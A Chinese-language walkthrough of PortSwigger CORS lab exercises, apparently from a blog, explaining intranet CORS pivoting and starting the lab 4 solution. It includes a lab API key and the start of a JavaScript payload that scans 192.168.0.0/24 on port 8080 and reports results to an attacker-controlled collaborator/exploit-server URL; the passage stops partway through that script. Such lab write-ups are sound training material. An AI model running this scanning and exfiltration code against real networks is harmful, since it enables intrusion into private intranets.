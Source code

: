 进行解码
<pre>`apikey": "LPfbAvOVfaP3D2Wx04Zp18UOWFRuilcz"`</pre>

 提交，完成实验
<pre>`LPfbAvOVfaP3D2Wx04Zp18UOWFRuilcz`</pre>




---


> 
<h3> 6、没有凭据的内部网和CORS</h3>
1、大多数CORS攻击依赖于响应报头的存在：
<pre>`Access-Control-Allow-Credentials: true`</pre>
如果没有该标头，受害用户的浏览器将拒绝发送他们的cookie，这意味着攻击者只能访问未经身份验证的内容，他们可以通过直接浏览目标网站轻松访问这些内容。
<hr/>
2、但有一种常见的情况是攻击者无法直接访问网站：当它是组织内部网的一部分，并且位于私有IP地址空间中时。内部网站的安全标准通常低于外部网站，这使得攻击者能够找到漏洞并获得进一步的访问权限。
<pre><code>例如，专用网络内的跨来源请求可以如下：
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com

并且服务器响应如下：
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *</code></pre>
<hr/>
3、应用程序服务器信任来自任何来源的资源请求，而无需凭据。如果私有IP地址空间内的用户访问公共Internet，则可以从外部站点执行基于CORS的攻击，该外部站点使用受害者的浏览器作为访问内部网资源的代理。
<hr/>
4、涉及实验：
实验4：CORS漏洞与内部网络枢轴攻击



---


> 
<h3>实验4：CORS漏洞与内部网络枢轴攻击</h3>
信息：
1、此网站具有不安全的CORS配置，因为它信任所有内部网络来源。
2、完成实验：编制JavaScript来定位本地网络（192.168.0.0/24，端口8080）上的端点，然后使用该端点来识别和创建基于CORS的攻击以删除用户。删除用户carlos
<hr/>
part1:
需要扫描本地网络以查找端点。将$collaboratorPayload替换为Collaborator有效负载或漏洞利用服务器URL
<pre><code>我的漏洞利用服务器
http://exploit-0a000082039e8219c2f833a701b700cb.exploit-server.net/</code></pre>

<pre><code>&lt;script&gt;
var q = [], collaboratorURL = 'http://$collaboratorPayload';

for(i=1;i&lt;=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}
